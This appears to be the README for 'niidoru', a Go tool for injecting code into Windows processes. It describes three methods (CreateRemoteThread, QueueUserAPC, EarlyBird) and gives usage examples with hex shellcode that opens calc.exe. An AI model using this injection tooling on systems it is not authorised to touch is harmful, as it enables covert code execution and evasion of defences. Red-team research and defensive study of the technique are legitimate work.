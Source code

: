 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method.
    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)
    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)
    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Examples: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

<br>

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 4272 and a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 4272 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new Notepad process and the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

Screenshot of the three examples:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)

<br>

------------------------------

## Using the binary

Compile it with:

```
go build
```

Then you can use the same commands as earlier replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
